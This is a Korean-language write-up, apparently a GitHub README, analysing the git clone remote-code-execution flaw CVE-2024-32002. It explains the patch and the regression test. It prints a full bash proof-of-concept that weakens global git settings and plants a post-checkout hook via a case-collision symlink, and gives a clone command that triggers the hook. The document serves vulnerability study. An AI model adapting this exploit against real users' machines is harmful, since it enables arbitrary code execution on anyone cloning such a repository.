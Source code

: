 # git clone을 통한 Remote Code Execution 공격 (CVE-2024-32002)

<strong>기여자</strong>
<br/>

-   [이정우@Roronoawjd](https://github.com/Roronoawjd)

## 배경 설명
해당 취약점은 대소문자를 구분하지 않는 Windows, MacOS와 같은 파일 시스템에서 submodule을 포함하는 git 저장소를 clone할 때 발생하는 `RCE(Remote Code Execution)` 취약점이다. RCE는 원격 코드 실행 취약점으로 공격자가 대상 시스템에서 원하는 명령어를 실행할 수 있는 아주 치명적인 취약점이다.
`A/modules/x` 과 `a/modules/x`은 동일한 경로로 취급된다. 이러한 특징과 심볼릭 링크를 활용하여 취약점을 유발한다.

## 취약점 정보
- 해당 POC는 Windows와 MAC 시스템에서만 동작합니다.
- `git config --global core.symlinks false`로 설정된 경우에는 공격이 작동하지 않습니다.


## 취약점 분석
[취약점 패치 확인](https://github.com/git/git/commit/97065761333fd62db1912d81b489db938d8c991d)

### `builtin/submodule--helper.c`
dir_contains_only_dotgit 함수: 디렉터리에 .git 파일만 포함되어 있는지 다른 디렉터리도 포함되어 있는지 확인하고 다른 파일이나 디렉터리가 있으면 오류를 반환한다.
clone_submodule 함수: clone하기 전에 하위 모듈 디렉토리가 존재하고 비어있는지 확인한다.

### `t/t7406-submodule-update.sh`

### 1. Global 구성
```sh
test_config_global protocol.file.allow always &&
test_config_global core.symlinks true &&
tell_tale_path="$PWD/tell.tale" &&
```
해당 스크립트는 Git 구성 옵션을 설정한다. protocol.file.allow always를 통해 Git의 파일 프로토콜을 활성화 한다.

core.symlinks true를 설정하여 심볼릭 링크 사용을 허용한다.

tell_tale_path는 RCE가 제대로 잘 작동됬는지 확인하는데 사용한다.

### 2. hook 설정
```sh
git init hook &&
(
  cd hook &&
  mkdir -p y/hooks &&
  write_script y/hooks/post-checkout <<-EOF &&
  echo HOOK-RUN >&2
  echo hook-run >"$tell_tale_path"
  EOF
  git add y/hooks/post-checkout &&
  test_tick &&
  git commit -m post-checkout
) &&
```
1. hook 레퍼지토리를 초기화 한다.
2. post-checkout이라는 hook을 생성
3. hook 스크립트를 저장소에 커밋

### 3. 메인 저장소 설정
```sh
hook_repo_path="$(pwd)/hook" &&
git init captain &&
(
  cd captain &&
  git submodule add --name x/y "$hook_repo_path" A/modules/x &&
  test_tick &&
  git commit -m add-submodule &&
  printf .git >dotgit.txt &&
  git hash-object -w --stdin <dotgit.txt >dot-git.hash &&
  printf "120000 %s 0\ta\n" "$(cat dot-git.hash)" >index.info &&
  git update-index --index-info <index.info &&
  test_tick &&
  git commit -m add-symlink
) &&
```
- hook의 경로 저장
- captin이라는 다른 레퍼지토리 초기화
- hook 저장소를 `A/modules/x`에 하위모듈로 추가한 후 커밋
- .git을 가리키는 a라는 심볼릭링크 생성

### 4. 테스트
```sh
test_path_is_missing "$tell_tale_path" &&
test_must_fail git clone --recursive captain hooked 2>err &&
grep "directory not empty" err &&
test_path_is_missing "$tell_tale_path"
```
- RCE가 작동됐는지 확인

### POC 제작
```sh
#!/bin/bash

# Set Git configuration options
git config --global protocol.file.allow always
git config --global core.symlinks true
# optional, but I added it to avoid the warning message
git config --global init.defaultBranch main 


# Define the tell-tale path
tell_tale_path="$PWD/tell.tale"

# Initialize the hook repository
git init hook
cd hook
mkdir -p y/hooks

# Write the malicious code to a hook
cat > y/hooks/post-checkout <<EOF
#!/bin/bash
echo "I'm roronoa" > /tmp/pwnd
calc.exe
open -a Calculator.app
EOF

# Make the hook executable: important
chmod +x y/hooks/post-checkout

git add y/hooks/post-checkout
git commit -m "post-checkout"

cd ..

# Define the hook repository path
hook_repo_path="$(pwd)/hook"

# Initialize the captain repository
git init captain
cd captain
git submodule add --name x/y "$hook_repo_path" A/modules/x
git commit -m "add-submodule"

# Create a symlink
printf ".git" > dotgit.txt
git hash-object -w --stdin < dotgit.txt > dot-git.hash
printf "120000 %s 0\ta\n" "$(cat dot-git.hash)" > index.info
git update-index --index-info < index.info
git commit -m "add-symlink"
cd ..

git clone --recursive captain hooked
```

git은 특정 이벤트가 생겼을 때 자동으로 스크립트를 실행할 수 있도록하는 hook이라는 것이 존재한다. 위치는 .git/hooks 디렉토리에 존재한다.
post-checkout은 checkout한 후에 실행되는 스크립트이다.

![image](https://github.com/Roronoawjd/git_rce/assets/105417063/95806f9f-1f69-46df-a71e-ac6bf97b318b)

순서는 다음과 같다.
1. clone 저장소 git_rce에 `.git`을 가리키는 심볼릭 링크 `a`가 생성
2. git clone할 때 하위 모듈의 경로가 `A/modules/x`가 아니라 `a/modules/x`로 인식됨
3. `a`는 `.git`을 가리키기 때문에 `.git`에 `/modules/x`가 생기고 `y/hooks/post-checkout`이 생성됨
4. checkout 성공 후 자동 후 `git_rce/.git/modules/x/y/hooks/post-checkout`가 실행되어 RCE가 발생함

## POC(Proof of Concept)
⚠️경고: 해당 취약점을 악의적으로 사용하지 마시오!
<pre><code>git clone --recursive https://github.com/Roronoawjd/git_rce.git</code></pre>
참고: Windows에서는 관리자 권한으로 cmd나 bash쉘을 열어서 실행해야 합니다.

